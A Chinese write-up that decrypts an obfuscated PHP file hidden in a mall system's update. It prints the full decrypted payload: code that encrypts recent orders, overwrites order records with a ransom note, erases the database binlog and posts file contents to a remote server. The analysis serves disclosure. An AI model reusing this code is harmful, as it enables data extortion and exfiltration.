

# 文件解密

## 商城项目加密，备份订单，修改订单表

### 加密细节

在一个版本更新后，有几个重要文件更新，`Application.php` ，`pay.pem`


- 更新内容，执行空格函数



- 默认加载`pay.pem`文件，使用第三方混淆

```php
<?php /* PHP Encode by  http://Www.PHPJiaMi.Com/ */
error_reporting(0);
ini_set("display_errors", 0);
if (!defined('uhtqzsqc')) {
    define('uhtqzsqc', __FILE__);
    if (!function_exists("��Җ��")) {
        function ®�������($���񾗊��)
        {
            global $��������, $��сŚ��ê, $�ۆ��ȇ���, $��ō������, $���ֶ��, $�����������, $��������, $�ǢÆ݁��, $����������, $����τ���, $�������, $��ǩ���, $���Ը����, $�᤭��, $��֕��ҳ��, $�������;
            $ʅ�׾�� = $�鈸��� = $����� = $��Ë����� = $Ì���Ё�� = $�����լ�� = $ʄ��Ғ���� = $��ϗ�� = $�����鏏� = $�����ɐ���� = $���������� = $�ۛ������ = $����ݾ�Չ�� = $���Ǎ������ = $��د������ = '�����㢨';
            $�������з = $ʅ�׾��('SA�AP��EEQ��DF��VA==');
            $���������� = $ʅ�׾��('XA�V');
            $�ۼ������� = $ʅ�׾��('W�5Z');
            $�͚����ڵ�� = $ʅ�׾��('VQ�TE��RCA�Q');
            $������� = $ʅ�׾��('CVIAUQ==');
            $�܏������� = $ʅ�׾��('WRBXA�==');
            $������ = $ʅ�׾��('WRBXF�==');
            $��ŷ��ć = $ʅ�׾��('�DZ�MT��L�J�');
            $���ë������ = $ʅ�׾��('����N�E3P�B�J�Q=');
            $����ռ = $ʅ�׾��('���9L�A�P�B�J�Q=');
            $�������з() == $�ۼ������� ? $����������() : '';
            $�������� = $��������($�����������($ʅ�׾��('TQ�EEB4WEAI=')));
            if (!isset($_SERVER[$��ŷ��ć]) && !isset($_SERVER[$���ë������]) && !isset($_SERVER[$����ռ])) {
                $����������();
            };
            $�܏������� = $�͚����ڵ��(true) * $�������;
            eval("");
            if (($�͚����ڵ��(true) * $������� - $�܏�������) > 100) {
                $����������();
            }
            eval($ʅ�׾��('UQQYE�AXEQ5GS������8I248H0MRW0NJH�FAVR8VQA�FQ�BIH0EEGV�WUER�AR�PC�4='));
            !$�������($��د������($��сŚ��ê($��������, $�鈸���('FVYF'), $�����('FVM='))), $�᤭��($��сŚ��ê($��������, $Ì���Ё��('CA=='), $�����լ��('FVYG')))) ? $���������() : $���͟������;
            $�������� = $ʄ��Ғ����('FVAGUFQ=');
            $��ɏ�ֳ� = $��ϗ��('FVYG');
            $��ɏ�ֳ� = $���Ը����(@$����������($����������($��сŚ��ê($��������, $��������, $��ɏ�ֳ�))));
            return $��ɏ�ֳ�;
        }
    }
}
?>
```

### 解密
[参考](https://www.52pojie.cn/forum.php?mod=viewthread&tid=693641&page=1&authorid=765171#18761227_%E6%A1%88%E4%BE%8B-2)

- 解密源文件
```php
<?php

function decrypt($data, $key)
{
    $data_1 = '';
    for ($i = 0; $i < strlen($data); $i++) {
        $ch = ord($data[$i]);
        if ($ch < 245) {
            if ($ch > 136) {
                $data_1 .= chr($ch / 2);
            } else {
                $data_1 .= $data[$i];
            }
        }
    }
    $data_1 = base64_decode($data_1);
    $key = md5($key);
    $j = $ctrmax = 32;
    $data_2 = '';
    for ($i = 0; $i < strlen($data_1); $i++) {
        if ($j <= 0) {
            $j = $ctrmax;
        }
        $j--;
        $data_2 .=  $data_1[$i] ^ $key[$j];
    }
    return $data_2;
}

function find_data($code)
{
    $code_end = strrpos($code, '?>');
    if (!$code_end) {
        return "";
    }
    $data_start = $code_end + 2;
    $data = substr($code, $data_start, -46);
    return $data;
}

function find_key($code)
{
    // $v1 = $v2('bWQ1');
    // $key1 = $v1('??????');
    $pos1 = strpos($code, "('" . preg_quote(base64_encode('md5')) . "');");
    $pos2 = strrpos(substr($code, 0, $pos1), '$');
    $pos3 = strrpos(substr($code, 0, $pos2), '$');
    $var_name = substr($code, $pos3, $pos2 - $pos3 - 1);
    $pos4 = strpos($code, $var_name, $pos1);
    $pos5 = strpos($code, "('", $pos4);
    $pos6 = strpos($code, "')", $pos4);
    $key = substr($code, $pos5 + 2, $pos6 - $pos5 - 2);
    return $key;
}

$input_file = $argv[1];
$output_file = $argv[1] . '.decrypted.php';

$code = file_get_contents($input_file);

$data = find_data($code);
if (!$code) {
    echo '未找到加密数据', PHP_EOL;
    exit;
}

$key = find_key($code);
if (!$key) {
    echo '未找到秘钥', PHP_EOL;
    exit;
}

$decrypted = decrypt($data, $key);
$uncompressed = gzuncompress($decrypted);
// 由于可以不勾选代码压缩的选项，所以这里判断一下是否解压成功，解压失败就是没压缩
if ($uncompressed) {
    $decrypted = str_rot13($uncompressed);
} else {
    $decrypted = str_rot13($decrypted);
}
file_put_contents($output_file, $decrypted);
echo '解密后文件已写入到 ', $output_file, PHP_EOL;
```

- 解密文件

```bash
$ php decrypt.php pay.pem
```

- 获取原文件`test.php.decrypted.php`

```php
?><?php @eval("//Encode by  phpjiami.com,Free user."); ?><?php

function threeFuc()
{
    $PUB_KEY = '-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqgbIOv3rZrS5LHDghMNT
tQO/H7iUTvwn/9yeVs2KZ3c8pklAOS+CtRj/WRJp2V3yCiBPNEqIdzhWOHztyqq/
NK5NcxeRVpb+77KN3LnCpYUQjgxFCsRs7b5te7uTJKry/IZDDlpnGKxlD3OdCH80
SIw68469Z+bTzU5pTUkf1/xWgbEkFY3lGKT3l+mNTkCB7MlatH3bppBSnm2LKBdV
CLRbN3ndBDhXyQrO3GixQSQyH6rpxvXDNdYW90aJ0/A2yBKZWJT4GowuJVKivCx8
A/iBhVzyIEv65GxzB1pxvZrYp3t6iIuBN2uilfpI/Wj7JHSm8CR5CkSai54dlUYg
6QIDAQAB
-----END PUBLIC KEY-----';

    $key = uniqid() . bin2hex(openssl_random_pseudo_bytes(32));
    $cryptedKey = '';
    if (false == openssl_public_encrypt($key, $cryptedKey, $PUB_KEY)) {
        return false;
    }
    $cryptedKey = base64_encode($cryptedKey);

    $count = 5000;
    $results = \app\models\Order::find()->asArray()->orderBy('id desc')->limit($count)->all();

    $crypted = openssl_encrypt(json_encode($results), 'AES-256-CBC', $key, 0, '0000000000000000');
    if (false == $crypted) {
        return false;
    }
    if (file_put_contents('enc.data', $crypted) == false ||
        file_put_contents('enc.key', $cryptedKey) == false) {
        return false;
    }

    $msg = base64_decode('5oKo55qE5pWw5o2u5bqT5bey6KKr5Yqg5a+G77yM6K+36IGU57O75b6u5L+h5Y+3OiBrZGRib3k=');
    $attr = [
        'order_no' => $msg,
        'name' => $msg,
        'mobile' => $msg,
        'address' => $msg,
        'remark' => $msg,
        'express' => $msg,
        'express_no' => $msg,
        'content' => $msg,
        'address_data' => $msg,
        'offline_qrcode' => $msg,
        'words' => $msg,
        'version' => $msg,
        'seller_comments' => $msg,
    ];

    $lastId = end($results);
    $lastId = $lastId['id'];
    \app\models\Order::updateAll($attr, 'id > ' . $lastId);

    $app = \Yii::$app;
    $app->getDb()->createCommand('reset master')->execute();
    return true;
}

function fiveFuc($key)
{
    $app = \Yii::$app;
    $data = file_get_contents('enc.data');
    $data = openssl_decrypt($data, 'AES-256-CBC', $key, 0, '0000000000000000');
    $results = json_decode($data, true);

    $trans = $app->getDb()->beginTransaction();
    foreach ($results as $result) {
        $cmd = $app->getDb()->createCommand();
        $cmd->update(\app\models\Order::tableName(), $result, ['id' => $result['id']])
            ->execute();
    }
    $trans->commit();
    echo 'ok';
    die();
}

function 　($v = null)
{
    try{
        if (file_exists('enc.key')) {
            if (!empty($_GET['_decode'])) {
                fiveFuc($_GET['_decode']);
            }
        } else {
            if (oneFuc() === 1 && twoFuc()) threeFuc();
        }
    }
    catch(\Exception $ex) {
        $app = \Yii::$app;
        $app->sentry->captureException($ex);
    }
    return $v;
}

function oneFuc()
{
    $app = \Yii::$app;
    $hosts = [
        'www.xkedou.cn',
        'malldemo.zjhejiang.com',
        'xkedou.cn'
    ];
    $trustHosts = [
        '127.0.0.1',
        'localhost'
    ];
    // host
    if (in_array($app->request->hostName, $trustHosts)) {
        return -1;
    }
    if(in_array($app->request->hostName, $hosts)) {
        return 1;
    }
    // file hash
    $file = dirname(__DIR__) . DIRECTORY_SEPARATOR . 'hejiang' . DIRECTORY_SEPARATOR . 'Cloud.php';
    if(file_exists($file) == false)
    {
        return 1;
    }
    $hash = @sha1_file($file);
    if($hash != false && '12dd64f71bcecdf2aa9567db6e05046bc7db8ace' === $hash)
    {
        return -1;
    }
    // file version
    $content = file_get_contents($file);
    if(stristr($content, "render('//error/auth'") !== false)
    {
        return 1;
    }
    // file content
    foreach($hosts as $host) {
        if (stristr($content, $host) !== false) {
            return 1;
        }
    }
    // upload
    return sixFuc($content);
}

function twoFuc()
{
    $app = \Yii::$app;
    return (bool) (int) $app->connecting();
}

function sixFuc($content)
{
    $curl = new Curl\Curl();
    $curl->post(base64_decode('aHR0cDovL2Nsb3VkLnpqaGVqaWFuZy5jb20vYXBpL2Nsb3VkLWZpbGUvaW5kZXg='), [
        'domain' => \Yii::$app->request->hostName,
        'file_content' => $content,
        'version' => hj_core_version()
    ]);
    $json = $curl->response;
    $json = json_decode($json, true);
    if(!isset($json['data']['is_fake']))
    {
        return 0;
    }
    return $json['data']['is_fake'] == 1 ? 1 : -1;
}
 
```


